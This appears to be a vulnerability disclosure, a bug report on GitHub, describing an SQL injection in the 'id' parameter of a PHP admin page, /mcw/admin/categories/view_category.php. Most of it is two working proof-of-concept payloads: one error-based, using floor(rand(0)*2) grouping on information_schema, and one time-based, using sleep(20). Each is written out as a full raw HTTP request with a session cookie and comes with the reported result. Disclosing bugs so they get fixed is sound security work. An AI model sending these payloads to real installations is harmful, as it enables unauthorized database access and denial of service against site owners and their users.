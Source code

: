 BUG_Author:Zhang RuiMing

Vulnerability File: /mcw/admin/categories/view_category.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and (select 1 from(select count(*),concat(0x61626364,(select (elt(111=111,1))),0x51525354,floor(rand(0)*2))x from information_schema.plugins group by x)a) and 'a'='a

```
GET /mcw/admin/categories/view_category.php?id=1%27%20and%20(select%201%20from(select%20count(*),concat(0x61626364,(select%20(elt(111=111,1))),0x51525354,floor(rand(0)*2))x%20from%20information_schema.plugins%20group%20by%20x)a)%20and%20%27a%27=%27a HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=1n6947aiql2hh8itbuvff2apro
Connection: close
```

Injection success based on errors

![image](https://github.com/Kerkong/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 1 from (select(sleep(20)))o) and 'o'='o

```
GET /mcw/admin/categories/view_category.php?id=1%27%20and%20(select%201%20from%20(select(sleep(20)))o)%20and%20%27o%27=%27o HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=1n6947aiql2hh8itbuvff2apro
Connection: close
```

Server response time is 20 seconds

![image](https://github.com/Kerkong/bug_report/blob/main/sql2.png)
